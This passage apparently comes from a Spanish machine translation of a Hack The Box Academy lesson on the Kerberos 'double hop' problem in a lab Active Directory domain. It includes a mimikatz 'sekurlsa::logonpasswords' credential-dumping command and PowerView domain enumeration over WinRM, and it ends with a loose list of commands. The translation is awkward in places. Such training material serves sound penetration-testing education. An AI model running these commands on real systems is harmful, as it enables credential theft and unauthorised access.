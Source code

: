 ```powershell-session
        ssp :
        credman :

mimikatz(commandline) # exit
Bye!
```

De hecho, hay procesos que se ejecutan en el contexto del`backupadm`usuario, como`wsmprovhost.exe`, que es el proceso que genera cuando se genera una sesión de Windows Remote PowerShell.

  Problema de "doble salto" de Kerberos

```powershell-session
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm
wsmprovhost.exe               1844 Services                   0     85,212 K Unknown         INLANEFREIGHT\backupadm
                             0:00:03 N/A
tasklist.exe                  6532 Services                   0      7,988 K Unknown         INLANEFREIGHT\backupadm
                             0:00:00 N/A
conhost.exe                   7048 Services                   0     12,656 K Unknown         INLANEFREIGHT\backupadm
                             0:00:00 N/A
```

En los términos más simples, en esta situación, cuando intentamos emitir un comando de servidor múltiple, nuestras credenciales no se enviarán desde la primera máquina a la segunda.

Digamos que tenemos tres anfitriones:`Attack host` --> `DEV01` --> `DC01`. Nuestro anfitrión de ataque es un cuadro loro dentro de la red corporativa pero no se unió al dominio. Obtenemos un conjunto de credenciales para un usuario de dominio y descubrimos que son parte de la`Remote Management Users`Grupo en Dev01. Queremos usar`PowerView`para enumerar el dominio, que requiere comunicación con el controlador de dominio, DC01.

![image](https://academy.hackthebox.com/storage/modules/143/double_hop.png)

Cuando nos conectamos a`DEV01`Usar una herramienta como`evil-winrm`, nos conectamos con la autenticación de la red, por lo que nuestras credenciales no se almacenan en la memoria y, por lo tanto, no estarán presentes en el sistema para autenticarse a otros recursos en nombre de nuestro usuario. Cuando cargamos una herramienta como`PowerView`E intentar consultar Active Directory, Kerberos no tiene forma de decirle al DC que nuestro usuario puede acceder a recursos en el dominio. Esto sucede porque el boleto Kerberos TGT (boleto de concesión de boletos) del usuario no se envía a la sesión remota; Por lo tanto, el usuario no tiene forma de probar su identidad, y los comandos ya no se ejecutarán en el contexto de este usuario. En otras palabras, cuando se autentica al host de destino, el boleto de servicio de tickets del usuario (TGS) se envía al servicio remoto, que permite la ejecución de comandos, pero no se envía el boleto TGT del usuario. Cuando el usuario intente acceder a recursos posteriores en el dominio, su TGT no estará presente en la solicitud, por lo que el servicio remoto no tendrá forma de demostrar que el intento de autenticación es válido, y se nos negará el acceso al servicio remoto.

Si la delegación sin restricciones está habilitada en un servidor, es probable que no enfrentaremos el problema de "doble salto". En este escenario, cuando un usuario envía su boleto TGS para acceder al servidor de destino, su boleto TGT se enviará junto con la solicitud. El servidor de destino ahora tiene el ticket TGT del usuario en la memoria y puede usarlo para solicitar un ticket TGS en su nombre en el próximo host al que intentan acceder. En otras palabras, el boleto TGT de la cuenta se almacena en caché, que tiene la capacidad de firmar boletos TGS y otorgar acceso remoto. En términos generales, si aterriza en una caja con delegación sin restricciones, ya ganó y no se preocupa por esto de todos modos.

---

[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> Import-Module .\PowerView.ps1
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> get-domainuser -spn | select samaccountname
[DEV01]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\Public> get-domainuser -spn | select samaccountname